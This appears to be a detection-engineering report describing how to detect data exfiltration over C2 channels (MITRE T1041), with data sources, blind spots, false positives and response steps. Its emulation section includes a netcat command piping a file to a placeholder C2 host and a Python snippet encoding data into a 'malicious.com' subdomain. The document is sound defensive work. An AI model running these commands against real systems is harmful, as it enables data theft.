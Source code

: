 # Alerting & Detection Strategy (ADS) Report: Detect Adversarial Exfiltration Over C2 Channels

## Goal
The primary objective of this strategy is to detect adversarial attempts to exfiltrate data over Command and Control (C2) channels, as defined by the MITRE ATT&CK technique T1041. This involves monitoring and identifying unauthorized data transfer activities that leverage existing C2 infrastructure to move sensitive information outside the network.

## Categorization
- **MITRE ATT&CK Mapping:** [T1041 - Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041)
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows

## Strategy Abstract
This detection strategy focuses on identifying abnormal data transmission patterns that indicate exfiltration over C2 channels. The approach leverages network traffic analysis, DNS query monitoring, and endpoint telemetry to identify suspicious activities.

### Data Sources:
1. **Network Traffic Logs:** Monitoring for unusual outbound traffic volumes or connections to known bad domains/IPs.
2. **DNS Query Logs:** Analyzing DNS requests for patterns indicative of data exfiltration via subdomain encoding.
3. **Endpoint Telemetry:** Using endpoint detection and response (EDR) tools to track anomalous process behavior, file access, and network activity.

### Patterns Analyzed:
- Unusual volume or frequency of C2 traffic during off-hours.
- DNS queries containing base64 encoded data in subdomains.
- Anomalies in process execution paths associated with known exfiltration techniques.

## Technical Context
Adversaries often use compromised systems to send data to external servers, camouflaged as normal C2 communications. This strategy aims to identify such misuse by monitoring for irregularities typical of data theft attempts.

### Adversary Emulation Details:
- **C2 Data Exfiltration:** Simulate using tools like `netcat` or custom scripts to transmit files over a compromised network.
  ```bash
  nc -w 3 <C2_IP> <PORT> < <file_to_exfiltrate>
  ```

- **Text-Based Data Exfiltration via DNS Subdomains:**
  Adversaries encode data in subdomain requests. The following command illustrates how this can be achieved:
  ```python
  import base64

  def exfiltrate_data_via_dns(data):
      encoded_data = base64.b64encode(data.encode()).decode()
      # Craft a fake domain request with the encoded data
      print(f"Generated DNS subdomain: {encoded_data}.malicious.com")
  
  exfiltrate_data_via_dns("Sensitive Data Here")
  ```

## Blind Spots and Assumptions
- **Network Evasion Techniques:** Adversaries may use advanced obfuscation methods to avoid detection.
- **Encrypted Traffic:** Analysis of encrypted traffic without decryption keys is challenging.
- **Assumption of Known Patterns:** Assumes adversaries follow detectable patterns that match known exfiltration behaviors.

## False Positives
Potential benign activities triggering false alerts include:
- Legitimate applications communicating with their C2 servers for updates or remote management.
- Users accessing subdomains as part of normal web browsing habits, especially if encoded in a non-malicious context.

## Priority
**High.**
The severity is high due to the potential loss of sensitive data and intellectual property, which can have significant legal, financial, and reputational impacts on an organization.

## Validation (Adversary Emulation)
### C2 Data Exfiltration:
1. Set up a controlled environment with network monitoring tools.
2. Use `netcat` or equivalent to simulate file transfer over the network.
3. Analyze traffic for abnormal patterns in data volume and destination addresses.

### Text-Based Data Exfiltration using DNS subdomains:
1. Execute the provided Python script to generate encoded DNS queries.
2. Monitor DNS logs for unusual query patterns or base64 encoded strings.
3. Use DNS security tools to trace back and analyze suspicious requests.

## Response
When an alert is triggered, analysts should:

1. **Verify the Alert:** Confirm that the activity matches known adversarial behavior using additional context (e.g., time of day, user history).
2. **Containment:** Isolate affected systems from the network to prevent further data loss.
3. **Investigation:** Conduct a thorough investigation to determine the scope and method of exfiltration.
4. **Mitigation:** Implement immediate security measures such as updating firewall rules or blocking suspect IPs.
5. **Remediation:** Patch vulnerabilities, update policies, and educate users if necessary.

## Additional Resources
- [MITRE ATT&CK T1041](https://attack.mitre.org/techniques/T1041)
- Further resources are not available at this time; consider engaging with cybersecurity communities for updated detection patterns.